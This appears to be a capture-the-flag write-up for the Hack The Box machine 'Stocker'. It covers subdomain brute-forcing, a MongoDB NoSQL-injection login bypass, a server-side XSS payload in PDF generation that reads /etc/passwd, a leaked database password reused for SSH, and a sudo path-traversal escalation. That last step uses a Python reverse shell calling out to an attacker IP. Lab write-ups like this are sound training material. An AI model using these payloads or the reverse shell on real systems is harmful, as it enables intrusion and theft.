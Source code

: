 # Stocker

## Contents
* [General Enumeration](#general-enumeration)
* [Login Exploiting](#login-exploiting)
* [Stock Enumeration](#stock-enumeration)
* [Stock Exploitation](#stock-exploitation)
* [User](#user)
* [Root](#root)

## General Enumeration
First thing let's scan for the open ports:
```
[vecio@vecio ~]$ nmap 10.10.11.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-28 19:09 CEST
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.46s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.17 seconds
```
We know that there are 2 services open: SSH service on port 22 and an HTTP server on the default port 80. We can check out the webb server, so we add the IP address to the /etc/hosts file:
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.196	stocker.htb
```
We can now access the web server on the browser using its domain or the IP address.

We notice that there is no real functionality we can exploit, so there must be something hidden.
We can guess that there might be a different part of the site on a specific subdomain: this technique is called `VHOST` (Virtual Host) which refers to the practice of running more than one website on a single machine, using subdomains like `a.example.com` and `b.example.com`.
In this case it will be a Name-based Virtual Host because the websites are hosted on the same IP, the webserver can differentiate to which website it has to send incoming requests through the HTTP `Host` header, which could be `example.com` or `a.example.com`.
So we can try to bruteforce using the top used subdomains to find an hidden website.
We can write our own tool: we just have to make a GET request to `http://(subdomain).stocker.htb`, getting the subdomain from a wordlist and checking the status code of the response.

Little tip: if you want to write your own script be aware that the website automatically redirects you to the main website giving the status code `301` when handling 404 pages, some libraries, like the nodejs `request`, will follow the redirect by default, which means that the response you receive will be the response from the redirected URL, not the original URL, giving the status code `200` even for wrong subdomains.

A good tool we can use to do that is [GoBuster](https://github.com/OJ/gobuster), which allow us, over a lot of other things, to search for working subdomains of a website, going over a wordlist, implementing the script which i mentioned above.
You can get the wordlist from the GitHub repository [SecLists](https://github.com/danielmiessler/SecLists).
Using GoBuster: `gobuster vhost -k --domain stocker.htb --append-domain -u http://10.10.11.196 -w ~/Wordlists/subdomains.txt`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://10.10.11.196
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /home/vecio/Wordlists/subdomains-11m.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/03/28 19:35:53 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```
We quite easly find the subdomain `dev` which redirects us to the `/login` route.
Let's add the new domain to the `/etc/hosts` file and see if we can find something to exploit in the `/login` route.
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.196	stocker.htb
10.10.11.196	dev.stocker.htb
```

Testing the new page, we find only a login form, which makes a POST request to the `/login` route with the data `username=admin&password=admin` being sent. If the request fails, as in this case, we get a login error.
We can assume that there could be some sort of database used that could be vulnerable to an injection.
We can find out using [Wappalyzer](https://www.wappalyzer.com/) that it is using the JS `Express` framework, so probably it is using a `NoSQL` database and this form may be vulnerable to a NoSQL Injection.

## Login Exploiting
Searching on the internet we can find this [cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet/) and start testing, using BurpSuite, some common payloads to search for unwanted behaviour.
Since we know that it is using a NoSQL database, we want to test using JSON to format the data in the POST request, so we can change the request header `Content-Type` to be `application/json` and format the payload as JSON: `{"username":"admin", "password":"admin"}`.
We can now start testing some keywords and find that we can inject MongoDB `$ne` operator, so we can craft the following payload to bypass the authentication: `{"username": {"$ne":0}, "password": {"$ne":0}}` and get redirected to `/stock`.
The `$ne` operator stads for `not equal`, so we're passing a query where we ask for a user which username's not equal to 0 and password not equal to 0, this would end up in a success login and we get redirected logged in as an authenticated user.

Let's learn why this vulnerability is possible: looking at the source code of the website (which you can get after getting access to the server) we can find the method which manages the `/login` endpoint:
```js
app.post("/login", async (req, res) => {
  const { username, password } = req.body;

  if (!username || !password) return res.redirect("/login?error=login-error");

  // TODO: Implement hashing

  const user = await mongoose.model("User").findOne({ username, password });

  if (!user) return res.redirect("/login?error=login-error");

  req.session.user = user.id;

  console.log(req.session);

  return res.redirect("/stock");
});
```
We can see that the server is getting the `username` and the `password` from the body of the request and passes those values to the mongodb `findOne()` method, without sanitizing them, which returns a document based on the queries that are passed, in this case username and password.
By injecting an object the query would become `findOne({ username: {$ne: 0}, password: ${$ne: 0} })` so it returns a user which username and password are not set to 0.

## Stock Enumeration
After we have successfully bypassed the authentication page we get redirected to the `/stock` route.
This page lets us add some items to a cart and proceed with the payment, which generates a check in pdf form.
The payment is done using a POST request to the endpoint `/api/order` with a json formatted body indluding a list of items that have been put in the cart, the response of the request includes an `orderId` which is used to create the route to view the pdf check `/api/po/64233a99566440aab8d5c56b`.
We can download the pdf file and use `Exiftool` to analyze it and find out that it is made using `Skia/PDF m108`.
Trying to edit the post request we can see that we can change the content of some fields and the result will be displayed in the pdf file, we can for example edit the `title` field of an item in the list and see that we get the edited title in the pdf result.
Doing a bit of research on the internet we find a [Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) attack.
If a web page is creating a PDF using user controlled input, you can try to trick the bot that is creating the PDF into executing arbitrary JS code.
So, if the PDF creator bot finds some kind of HTML tags, it is going to interpret them, and you can abuse this behaviour to cause a Server XSS.

## Stock Exploitation
We can try to inject some payloads into the `title` field to see if the website is vulnerable.
If we inject this payload `<iframe src=file:///etc/passwd></iframe>` we can see in the returned pdf file the contents of the `/etc/passwd` file and find out the name of the user `angoose`.
Note that if the frame is too small to read the entire file, you can add some in-line css styling to make the frame bigger.

## User
If can find the path of the project by injecting the following payload `<script> document.write(window.location) </script>` which returns `file:///var/www/dev/pos/64233e83a8e0cb4c2d3cfb83.html` we can now try to find the main file in the project subdirectories.
With a few tries we can find the file `/var/www/dev/index.js` which contains the source code of the webserver.
We can also see the connection string to the MongoDB database:
```js
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```
Which logs the user `dev` with the password `IHeardPassphrasesArePrettySecure`.
If we try to login the user `angoose` with SSH and use the password we found to connect to MongoDB we can get in the server.
We can then find the user flag inside the `/home/angoose/user.txt` file.

## Root
First thing we can check what the user can do by running `sudo -l` passing the password we found erlier and get the following output:
```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```
We can see that we can run `node` as sudo on all js scripts inside the `/usr/local/scripts/` directory.
We can exploit this to make it run our own js script, the user doesn't have permission to write into the `/usr/local/scripts/` directory, but we can exploit the path expression.
Firstly we can write a js script inside the `/home/angoose/` directory to execute a privileged python reverse shell:
```js
var exec = require('child_process').exec;
exec("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.79\",4999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'", () => {console.log("Executed")});
```
we then listen to connections on the port `4999` on our local machine:
```
nc -lvnp 4999
```
and execute the script by running `sudo /usr/bin/node /usr/local/scripts/../../home/angoose/exploit.js`.
Once we instantiated a shell and we can get the root flag inside the `/root/root.txt` file.
